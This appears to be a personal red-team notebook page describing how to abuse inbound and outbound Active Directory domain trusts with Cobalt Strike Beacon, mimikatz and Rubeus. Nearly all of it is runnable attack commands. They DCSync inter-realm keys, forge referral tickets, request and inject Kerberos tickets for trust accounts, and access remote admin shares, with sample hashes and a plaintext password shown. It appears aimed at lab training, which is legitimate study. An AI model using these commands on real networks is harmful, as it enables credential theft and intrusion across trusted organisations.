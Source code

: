
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | trustAttributes                      |
| ----- | ------------------------------------ |
| 1     | `TRUST_ATTRIBUTE_NON_TRANSITIVE`     |
| 4     | `TRUST_ATTRIBUTE_QUARANTINED_DOMAIN` |
| 8     | `TRUST_ATTRIBUTE_FOREST_TRANSITIVE`  |
| 32    | `TRUST_ATTRIBUTE_WITHIN_FOREST`      |
| 64    | `TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL`  |

##### Inbound Trust Abuse

Enumerate the one-way trust
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname
```

Enumerate the Foreign Security Principals Container.
```powershell
ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname partner.com --dn DC=partner,DC=com
```

Enumerate interesting SID
```powershell
ldapsearch (objectSid=[SID])

ldapsearch (objectSid=S-1-5-21-3926355307-1661546229-813047887-6102)
```

Perform DCSync to obtain inter-realm key.
```powershell
make_token CONTOSO\dyork Passw0rd!
dcsync contoso.com CONTOSO\PARTNER$
rev2self

7dd5eff4dfa069406ade61cbf61f1f0b39049781179d89c7cef0eb57200526a3
77057e264522cbf4db45d6733b9167dc
```

Forge a referral ticket offline or online using the `/ldap` flag
```powershell
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:77057e264522cbf4db45d6733b9167dc /nowrap

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /service:krbtgt/partner.com /rc4:77057e264522cbf4db45d6733b9167dc /ldap /nowrap
```

Use forged inter-realm ticket to request service tickets for the trusting domain
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /nowrap /ticket: 
```

Inject ticket into current session and verify
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
ls \\par-jmp-1.partner.com\c$
```

##### Outbound Trust Abuse

 Enumerate the one-way trust.
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatName
```

> **From the Medium-integrity Beacon**:

Get the GUID of the TDO
```powershell
ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID

288d9ee6-2b3c-42aa-bef8-959ab4e484ed
```

 Obtain the shared inter-realm key from the TDO.
```powershell
mimikatz lsadump::dcsync /domain:partner.com /guid:{288d9ee6-2b3c-42aa-bef8-959ab4e484ed}

cc19dd9022fb33da79820c340e7c96765f237aa1a5a9dfe889a8f27af12c7a34
6150491cceb080dffeaaec5e60d8f58d
```

 Request a TGT for the trust account using the shared secret.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /nowrap /rc4:6150491cceb080dffeaaec5e60d8f58d
```

> **From the High-integrity Beacon**:

Inject the TGT into a sacrifial logon session and verify
```powershell
make_token CONTOSO\PARTNER$ FakePass

execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

run klist
```

Perform [enumeration](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F8.%20Discovery%2F_%20Main) on the trusted domain, find roastable users, ADCS instances, etc.
```powershell
ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com
```